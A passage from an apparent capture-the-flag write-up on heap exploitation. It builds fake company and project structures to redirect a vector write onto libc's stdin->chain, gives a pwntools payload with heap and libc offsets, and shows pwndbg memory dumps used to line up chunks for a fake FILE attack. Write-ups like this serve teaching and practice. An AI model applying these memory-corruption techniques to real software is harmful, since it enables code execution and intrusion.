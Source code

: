 In the fake company, we need to fake the projects vector, and make it point to a
fake project. Then in the fake project, we can fake the workers vector, making
it point to our desired write region, so that when the worker is moved into this
project, the program will think that the vector data is at our write address,
and hence write the worker pointer to +0x8 of the address we supplied. Also make
sure that the vector capacity is big enough to hold the new worker.

```python
payload = flat(
    0x0, 0x0,
    0x0, 0x0,

    # start of fake company
    0xdeadbeef, 0x8,
    0x0, 0x0,
    0x1337, 0x0,
    heap_base + 0x16450, heap_base + 0x16458, # fake vector
    heap_base + 0x16458, 0x0,

    # start of fake project
    heap_base + 0x16420, 0x2,
    0x6161, 0x0, # project name is aa
    # stdin->chain - 0x8 (because when appending it will be 0x8 ahead)
    0x0, libc_base + 0x203948, 
    libc_base + 0x203948, libc_base + 0x203950,

    # fake vector data - points to fake project
    heap_base + 0x16410,
)
payload += b"a"*(0x410 - len(payload))
p.sendline(payload)
```

Now we need to choose a john worker to edit, so that we can write our fake file
into him. This john should eventually be consolidated into unsorted bin so that
we have a large enough region to control for both the fake file and the
`_wide_data` struct. Because of the way the heap is laid out, some random tcache
chunks are allocated between our johns, so we need to find a contiguous region
of johns that we can free to make the unsorted chunk.

Looking at the global `workers` vector, we can find a region of johns here:

```
pwndbg> x/32gx  0x5555555896e0
0x5555555896e0: 0x0000555555588820      0x0000555555588860
0x5555555896f0: 0x00005555555888c0      0x0000555555588930
0x555555589700: 0x0000555555588970      0x0000555555588a50
0x555555589710: 0x0000555555588a90      0x0000555555588ad0
0x555555589720: 0x0000555555588b10      0x0000555555588c70
0x555555589730: 0x0000555555588cf0      0x0000555555588d30
0x555555589740: 0x0000555555588d70      0x0000555555588db0
0x555555589750: 0x0000555555588df0      0x0000555555588e30
0x555555589760: 0x0000555555588e70      0x00005555555890d0
0x555555589770: 0x0000555555589110      0x0000555555589150
0x555555589780: 0x0000555555589190      0x00005555555891d0

                john22 here
0x555555589790: 0x0000555555589210      0x0000555555589250
0x5555555897a0: 0x0000555555589290      0x00005555555892d0
0x5555555897b0: 0x0000555555589310      0x0000555555589350
0x5555555897c0: 0x0000555555589390      0x00005555555893d0
0x5555555897d0: 0x0000555555589410      0x0000555555589450
```
